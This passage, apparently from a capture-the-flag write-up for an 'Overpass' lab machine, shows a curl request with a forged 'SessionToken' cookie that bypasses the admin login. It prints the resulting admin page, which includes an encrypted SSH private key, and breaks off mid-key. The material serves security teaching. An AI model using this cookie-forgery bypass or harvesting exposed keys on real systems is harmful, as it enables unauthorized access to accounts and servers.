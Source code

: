## GETTING CREDS :

>>By the source there else statement when the cookie is "SessionToken=anything" let the user in.So we used curl to do this.

```bash
root@ip-10-10-76-219:~# curl "http://10.10.222.176/admin/" --cookie "SessionToken=anything"
<!DOCTYPE html>
<html>

<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <title>Overpass</title>
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <link rel="stylesheet" type="text/css" media="screen" href="/css/main.css">
    <link rel="icon" 
      type="image/png" 
      href="/img/overpass.png" />
    <script src="/main.js"></script>
</head>

<body>
    <nav>
        <img class="logo" src="/img/overpass.svg" alt="Overpass logo">
        <h2 class="navTitle"><a href="/">Overpass</a></h2>
        <a href="/aboutus">About Us</a>
        <a href="/downloads">Downloads</a>
    </nav>
    <h1 class="pageHeading content">Welcome to the Overpass Administrator area</h1>
    <h3 class="subtitle content">A secure password manager with support for Windows, Linux, MacOS and more</h3>
    <div class="bodyFlexContainer content">
        <div>
            <p>Since you keep forgetting your password, James, I've set up SSH keys for you.</p>
            <p>If you forget the password for this, crack it yourself. I'm tired of fixing stuff for you.<br>
                Also, we really need to talk about this "Military Grade" encryption. - Paradox</p>
            <pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,9F85D92F34F42626F13A7493AB48F337

LNu5wQBBz7pKZ3cc4TWlxIUuD/opJi1DVpPa06pwiHHhe8Zjw3/v+xnmtS3O+qiN
JHnLS8oUVR6Smosw4pqLGcP3AwKvrzDWtw2ycO7mNdNszwLp3uto7ENdTIbzvJal
73/eUN9kYF0ua9rZC6mwoI2iG6sdlNL4ZqsYY7rrvDxeCZJkgzQGzkB9wKgw1ljT
WDyy8qncljugOIf8QrHoo30Gv+dAMfipTSR43FGBZ/Hha4jDykUXP0PvuFyTbVdv
BMXmr3xuKkB6I6k/jLjqWcLrhPWS0qRJ718G/u8cqYX3oJmM0Oo3jgoXYXxewGSZ
AL5bLQFhZJNGoZ+N5nHOll1OBl1tmsUIRwYK7wT/9kvUiL3rhkBURhVIbj2qiHxR
3KwmS4Dm4AOtoPTIAmVyaKmCWopf6le1+wzZ/UprNCAgeGTlZKX/joruW7ZJuAUf
ABbRLLwFVPMgahrBp6vRfNECSxztbFmXPoVwvWRQ98Z+p8MiOoReb7Jfusy6GvZk
VfW2gpmkAr8yDQynUukoWexPeDHWiSlg1kRJKrQP7GCupvW/r/Yc1RmNTfzT5eeR
OkUOTMqmd3Lj07yELyavlBHrz5FJvzPM3rimRwEsl8GH111D4L5rAKVcusdFcg8P
9BQukWbzVZHbaQtAGVGy0FKJv1WhA+pjTLqwU+c15WF7ENb3Dm5qdUoSSlPzRjze
eaPG5O4U9Fq0ZaYPkMlyJCzRVp43De4KKkyO5FQ+xSxce3FW0b63+8REgYirOGcZ
4TBApY+uz34JXe8jElhrKV9xw/7zG2LokKMnljG2YFIApr99nZFVZs1XOFCCkcM8
GFheoT4yFwrXhU1fjQjW/cR0kbhOv7RfV5x7L36x3ZuCfBdlWkt/h2M5nowjcbYn
exxOuOdqdazTjrXOyRNyOtYF9WPLhLRHapBAkXzvNSOERB3TJca8ydbKsyasdCGy
AIPX52bioBlDhg8DmPApR1C1zRYwT1LEFKt7KKAaogbw3G5raSzB54MQpX6WL+wk
6p7/wOX6WMo1MlkF95M3C7dxPFEspLHfpBxf2qys9MqBsd0rLkXoYR6gpbGbAW58
dPm51MekHD+WeP8oTYGI4PVCS/WF+U90Gty0UmgyI9qfxMVIu1BcmJhzh8gdtT0i
n0Lz5pKY+rLxdUaAA9KVwFsdiXnXjHEE1UwnDqqrvgBuvX6Nux+hfgXi9Bsy68qT
8HiUKTEsukcv/IYHK1s+Uw/H5AWtJsFmWQs3bw+Y4iw+YLZomXA4E7yxPXyfWm4K
4FMg3ng0e4/7HRYJSaXLQOKeNwcf/LW5dipO7DmBjVLsC8eyJ8ujeutP/GcA5l6z
ylqilOgj4+yiS813kNTjCJOwKRsXg2jKbnRa8b7dSRz7aDZVLpJnEy9bhn6a7WtS
```